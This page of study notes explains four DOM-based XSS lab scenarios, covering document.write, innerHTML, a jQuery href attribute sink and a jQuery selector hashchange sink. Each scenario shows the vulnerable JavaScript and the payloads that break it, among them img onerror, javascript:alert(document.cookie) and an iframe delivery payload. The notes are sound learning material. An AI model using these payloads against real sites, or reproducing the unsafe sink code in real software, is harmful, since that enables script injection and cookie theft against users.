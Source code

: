 # Function that uses "document.write()" and concatenation of the input string

### Scenario

```javascript
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```
With the document.write function it writes the "img" tag with the specified "src" parameter. In it there is a concatenation with the parameter that the user give to the page.

The parameter is taken from window.location.search and the parameter name is "search". If the is not empty then the JS function "trackSearch" is called.

N.B.: the window.location.search take anything which comes after the question mark in the URL.

In the DOM the passed element is displayed in the "img" tag created by the JS function:
```html
<img src="/resources/images/tracker.gif?searchTerms=test">
```

### Exploitation

We can pass this string as input:

```
test" onload=alert()
```

Here, what happens is the following:
- The img tag is created as shown before;
- Now, due to the presence of " we are able to break the string automatically created by the JS function;
- The image is actually loaded, but given the presence of the onload action we inserted, the action specified in it will be perfomed after the image loading;
- We inserted the alert() function in the onload action, so we expect to see an alert box on the web page;
- We cannot close the " because there is that already inserted by the JS function.

The HTML resulting from this input is the following:
```html
<img src="/resources/images/tracker.gif?searchTerms=test" onload=alert()">
```

# INNER.html sink using source "location.search"

### Scenario

```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

This JS code snippet takes the input string with "window.location.search" and takes the parameter called "search".

This string is passed to the JS function and used with the innerHTML.

DOM in which the input is diplayed:

```html
<span id="searchMessage">uniquetest</span>
```

In innerHTML if we pass a <script> tag it won't be executed. This is a security feature. So we need to pass something else.

### Exploit
We can use:
```
<img src='0' onerror=alert()>
```
The src provided will cause an error and onerror we load the alert() function.
As we seen before the "script" tag is not executed but not the "img" tag.

The DOM modified is the following:
```html
<span id="searchMessage">
    <img src="0" onerror="alert()">
</span>
```

# DOM XSS in JQuery anchor href attribute sink using location.search source

### Scenario
JQuery is a JS framework with a little bit different syntax from vanilla JS.

```html
<a id="backLink" href="/">Back</a>
```

This back link on the page, redirect the users to the previous page.

The href is populated by a JQuery script.

```javascript
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```

- $('#backLink') this select the element with the id="backLink";
- attr("href") go inside the attribute href in the selected ID;
- Assign to this attribute the value retrieved from the URL parameter called "returnPath".

### Exploit
If we have an anchor tag (<a>) and inside the href parameter of it we have "javascript:SOMEJS", SOMEJS will be executed directly.


We can assign to the returnPath URL parameter something like this:
```
javascript:alert(document.cookie)
```

Resulting DOM:
```html
<a id="backLink" href="javascript:alert(document.cookie)">Back</a>
```

When we will click on the link on the web page, the JS will be executed. We will get an alert with the cookie shown inside.

# JQuery selector sink using hashchange

### Scenario

In the page source, we can see the following JS script:
```javascript
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

What's an **hashchange event**?
You can put an hashtag (#) at the end of the url followed by a number or a word.
It's often used as bookmarking functionality.

The JS function showed creates a variable called "post".
It assign to the variable the content of the h2 tag which contains the value of the hashchange we pass to the URL parameter contained inside the section "blog-list".

Clearly, the "contains" method search for a value that we can manipulate.

N.B.: **In some version of JQuery the function "contains" may behave as unexpectedly**. So, if we try to give to it the argument ```<h1> somethingUNIQUE </h1>``` and print the variabile "post" we may notice that post variable contains our h1 tag.
**In other words, the contains method created the object passed as argument to it.**
This DOM element isn't inserted in the page, but it's a **detached DOM element**.

We can give it a parent node, so, in other words, we can attach in to the DOM of the web page:

```javascript
var mynode = document.getElementById("something");
mynode.appendChild(post)
```

### Exploit

We can exploit the vulnerability above, by using a tag like "<img>" and forcing it to the error and hen using a onerror functionality.

```javascript
let myimg = document.createElement('img')
myimg.src = 0 //nosense value of the src
```

We can pass it as payload:

```html
<img src=0 onerror='alert()'>
```

In this case we can avoid to attach this img tag to the web page DOM because we can notice from the network connection panel of our browser that it calls immediatly the "src" location although this "img" tag isn't attached to the DOM of the web page.

In some case, we can deliver a simiilar payload using **"iframe"**:
```html
<iframe src="https://theVulnerablePageURL/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

This code load the vulnerable page inside a box (the iframe) and then append to the URL in the src field the hashchange value which exploits the vulnerability.
